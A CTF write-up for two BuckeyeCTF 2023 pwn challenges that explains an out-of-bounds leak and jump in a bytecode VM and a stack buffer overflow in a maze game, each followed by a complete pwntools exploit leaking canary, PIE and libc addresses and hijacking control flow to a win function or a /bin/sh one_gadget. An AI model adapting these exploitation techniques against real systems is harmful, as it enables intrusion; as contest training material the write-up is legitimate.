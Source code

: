 ```yaml
---
layout: post
title: "BuckeyeCTF 2023 Pwnable Write up"
date: 2023-10-02 23:00:00 +0900
categories: [Security, CTF]
tags: [CTF, linux]
img_path: 20231002_buckeye_write-up
image: 1.jpg
---
```


I solved 4 pwn (Beginner Menu, Starter Buffer, Bugsworld, and Frog Universe in C), 1 crypto (coding), and 1 misc (New Management).

## **Bugsworld**

---

### **[0x00] Description**

> The original BUGSWORLD interpreter was too slow because it was written in JAVA. This new one is 100x faster probably because it's written in C!
> 
> Author: jm8
> 
> 36 solves

### **[0x01] Summary**

Simple VM, OOB Leak, and OOB Execute vulnerability

### **[0x02] Solutions**

We can enter the instructions of the game, and the game validates the instructions and execute it.

It has 2 vulnerability. First is OOB Leak.

```c
  // show the disassembly and validate program
  for (int i = 0; i < n; i++) {
    // write first and jump to it.
    printf("%s", instruction_names[bytecode[i]]);
    if (bytecode[i] < 0 || bytecode[i] > 16) {
      printf("Invalid instruction\n");
      return;
    }
    if (bytecode[i] >= INSTRUCTION_JUMP) {
      i++;
      printf(" %ld\n", bytecode[i]);
    } else {
      printf("\n");
    }
  }
```
The game validates the instructions but it prints the contents of the instructions first.

So, we can print PIE base through OOB leak. I print the `do_move` function pointer (0x2040 + 0x20 * 0xFF).

Second one is OOB Execution and absent of initilaization.

```c
void do_jump(State *state) {
  state->pc++;
  state->pc = bytecode[state->pc]; // oob
}
```

The game jumps to the next instructions without oob check and bytecode array never be initialized with zero.

So prev bytecode is remain at the next instrucitons and we can use the bytecode beyond the instruction range.

It means that we can execute any address and control RIP. Nicely the program has `win` function.

```py
from pwn import *

def writeProgram(size, prog):
    p.sendlineafter(b"bytecode?\n> ", str(size).encode())
    p.recvuntil(b"instructions:\n> ")
    for i in range (size):
        p.sendline(str(prog[i]).encode())

if args.REMOTE:
    p = remote('chall.pwnoh.io', 13382)
else:
    p = process('./bugsworld', aslr=1)

# leak pie
writeProgram(1, [0xfa + 5])
pie = u64(p.recv(6).ljust(8, b'\x00')) - 0x134d
log.success(f"pie base @ {hex(pie)}")
win = pie + 0x12a9

writeProgram(5, [0, 0, 0, 0x1c, win])
writeProgram(2, [6, 3])

p.interactive()
```

`bctf{7h3_w0rld_15_fu11_0f_bu65_295c62b69}`

## **Frog Universe in C (FUC)**

---

### **[0x00] Description**

> ... There are leaks in the buffers to be found
> 
> Author: kirin <3 gsemaj
> 
> 10 solves

### **[0x01] Summary**

Simple game with Random and Stack BOF until RET + 8

### **[0x02] Solutions**

The game is maze and it has movement of up, down, left, and right.

After a initialization of maze, `explore` function is called.

```c
unsigned __int64 explore()
{
  char v1; // [rsp+3h] [rbp-Dh] BYREF
  int i; // [rsp+4h] [rbp-Ch]
  unsigned __int64 v3; // [rsp+8h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  for ( i = 1; i; i = sub_2D2F() )
  {
    printf("(%i, %i)\n", (unsigned int)MAZE->X, (unsigned int)MAZE->Y);
    input(&v1, 0x25);
    switch ( v1 )
    {
      case 'w':
        if ( MAZE->UPWARD )
          MAZE = MAZE->UPWARD;
        break;
      case 's':
        if ( MAZE->DOWNARD )
          MAZE = MAZE->DOWNARD;
        break;
      case 'a':
        if ( MAZE->LEFTWARD )
          MAZE = MAZE->LEFTWARD;
        break;
      case 'd':
        if ( MAZE->RIGHTWARD )
          MAZE = MAZE->RIGHTWARD;
        break;
      default:
        printf("Invalid input %s\n", &v1);
        break;
    }
  }
  return v3 - __readfsqword(0x28u);
}
```

Simply it has BOF at `v1`, and it prints the `v1` so we can leak Stack address and RET.

Using this, I can leak the Canary, Stack, PIE base, and libc base.

The maze is initialized with srand and rand complexly, but maze size is 400 x 400. I thought that brute-force works well enough.

Only we want is return condition of `explore` and many exit exists in maze.

```
0xebcf1 execve("/bin/sh", r10, [rbp-0x70])
constraints:
  address rbp-0x78 is writable
  [r10] == NULL || r10 == NULL
  [[rbp-0x70]] == NULL || [rbp-0x70] == NULL
```

There is nice one_gadget for me and I use it with appropriate SFP, because we can control Stack until RET + 8 (0xD + 0x8 (SFP) + 0x10 (RET, RET+8) == 0x25).

```py
from pwn import *

p = remote('chall.pwnoh.io', 13387)
libc_path = '/usr/lib/x86_64-linux-gnu/libc.so.6'
libc = ELF(libc_path, False)

p.sendlineafter(b")\n", b'A'*6)
p.recvuntil(b"A"*6)
canary = u64(b'\x00' + p.recv(7))
log.success(f"Canary @ {hex(canary)}")

p.sendlineafter(b")\n", b'A'*5 + b'B'*0x8)
p.recvuntil(b"B"*0x8)
stack = u64(p.recv(6).ljust(8, b'\x00'))
target = stack - 0x48 + 0xD
log.success(f"stack @ {hex(stack)}")

p.sendlineafter(b")\n", b'A'*5 + b'B'*0x10)
p.recvuntil(b"B"*0x10)
pie = u64(p.recv(6).ljust(8, b'\x00')) - 0x3431
log.success(f"PIE @ {hex(pie)}")

payload = b'A' + p32(0) + p64(canary)
payload += p64(stack + 0x10) + p64(pie+0x2FCA)
p.sendlineafter(b")\n", payload)

# brute-force (server timeout 10-seconds maybe)
signals = ["it is crushing", "intense heat", "everything is light", "ribbity!",  "the frog...", "slurp"]
flag = True
while flag:
    p.sendline(b'd')
    data = p.recv()
    print(data)
    for s in signals:
        if s in data.decode():
            print(data)
            flag = False
            break


p.sendline(b'd'*5) 
p.sendlineafter(b")", b'c'*5) 
p.recvuntil(b"c"*5)
libc.address = u64(p.recv(6).ljust(8, b'\x00')) - libc.libc_start_main_return
log.success(f"libc base @ {hex(libc.address)}")

one_gadget = libc.address + 0xebcf1
payload = b'a'* 5 + p64(canary)
payload += p64(stack + 0x80) + p64(one_gadget)
p.sendlineafter(b")\n", payload)
p.sendline(b'a')
p.sendline(b'cat /app/run')
p.interactive()
```

`bctf{YouHavePwndDeath,ToYouGoesAFlag}`

